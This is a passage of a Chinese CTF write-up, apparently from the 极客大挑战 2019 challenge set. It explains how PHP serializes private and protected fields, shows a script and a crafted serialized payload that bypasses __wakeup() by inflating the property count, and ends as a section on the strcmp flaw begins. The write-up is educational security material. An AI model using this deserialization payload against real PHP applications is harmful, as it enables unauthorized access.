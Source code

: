 + **public**、**protected**、**private**在序列化时的区别： 1.var和public木有什么特别，公共字段的字段名按照声明时的字段名进行序列化，但序列化后的字段名中不包括声明时的变量前缀符号``$``；2.protected声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的实例对象中不可见。因此保护字段的字段名在序列化时，字段名前会加上``\0*\0``的前缀。(**注意：**这里的``\0``表示ASCII码为0的字符，也就是我们经过urlencode后看到的``%00``)；3.private声明的字段为私有字段，只在所声明的类中可见，在该类的子类和实例对象中均不可见。因此私有字段的字段名在序列化时，字段名前会加上``\0\0``的前缀，这里，表示的声明该私有字段的类和类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定时被序列化的对象的类，而有可能时它的祖先类。

+ **__wakeup()**方法：与**__sleep()**函数相反，**__sleep()**函数是在序列化被自动调用。**__wakeup()**函数是在反序列化时被自动调用。

  **绕过：** 当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过**__wakeup()**函数的执行。

由上述代码可知，想要得到flag就要让password=100，username=admin，所以要绕过**__wakeup()**函数， 才可以得到flag。

先来个初级脚本：

```
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password)     {
        $this->username = $username;
        $this->password = $password;
    }
}
    
    $a = new Name('admin', 100);
    $b = serialize($a);
    
    echo $b
?>
```

结果如下：

```
O:4:"Name":2:{s:14:"<0x00>Name<0x00>username";s:5:"admin";s:14:"<0x00>Name<0x00>password";i:100;}
```

但是``<0x00>``无法复制出来，所以用``%00``代替。

```
O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

然后再绕过**__wakeup()**函数，修改其属性个数(增大)：

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

### [极客大挑战 2019]BuyFlag

学到的知识点：

**PHP中的strcmp漏洞：**

```
int strcmp ( string $str1 , string $str2 )
```
